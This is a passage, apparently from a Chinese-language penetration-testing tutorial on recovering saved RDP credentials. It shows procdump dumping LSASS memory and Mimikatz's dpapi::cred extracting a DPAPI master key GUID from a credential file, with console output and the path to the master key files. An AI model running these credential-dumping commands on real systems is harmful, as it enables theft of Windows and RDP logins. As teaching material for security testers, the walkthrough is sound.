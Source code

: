 ```console
PS C:\Windows\System32> .\procdump64.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:32:56] Dump 1 initiated: C:\Windows\System32\lsass.dmp
[15:32:56] Dump 1 writing: Estimated dump file size is 75 MB.
[15:32:56] Dump 1 complete: 75 MB written in 0.2 seconds
[15:32:57] Dump count reached.

```

使用 Mimikatz 从指定的 RDP 会话文件中，获取到 guidMasterKey 值：

```console
mimikatz # dpapi::cred /in:84BD531FDD20A7ED510558FA8768BA20
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {52c3460d-2e8b-4764-957c-57185d4d62b2}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      :


  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : cbc61bdb2a8cda88dafb2c090aaf64b6c8edfc5f32a134839f083fa469a95c7f
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 3c157c9d67b4e62952b3f8b72d841a35cff4d012e46c2c8f91e4e21af8a91e45
  dwDataLen          : 000000f0 - 240
  pbData             : 3e705a067361549290c628f53ae625d3961d29c2eeba9ba24270723dc3021ad8f6bb9e29c474951492d3ae470daf715825b33652607967a9394f0d10b7e35a34c57396d41e9faba5ea89fe969a7ead9e76035dfe3aff6c2b7d6332ea0b2fec5ea2eca2ad1054808dab04d17e4a818f2fbe0aed21b3e217604f2b52e04736c77349f0455c832af7120ffb1eda7dd3b5fc6214f697564e28b2c916d8ab926ffc65571e6475ca7d746e63d4b919519970233359ef2c547f2f3422b9d4199e1f4bcc3f5d034f6d47da39469331fa31adacefaba7dd7aae4b6fb3fea8a873815336cff1c62bb60b2fdbb69647c520a01550f6
  dwSignLen          : 00000040 - 64
  pbSign             : f776ff8611228511d6c93bd259caeea4bdf66908fc9a79c6c5841d85bb340f02489972d82ca9124bf6adc48ac6c4341a2012dc070a3d6c9b1c850d29298bd4a0

```

> 注：获取到的 guidMasterKey 值，其实就是的 Master Key File 的名称。
>
> 可以在 `%APPDATA%\Microsoft\Protect\<UserSID>\<MasterKeyFile>` 中找到。
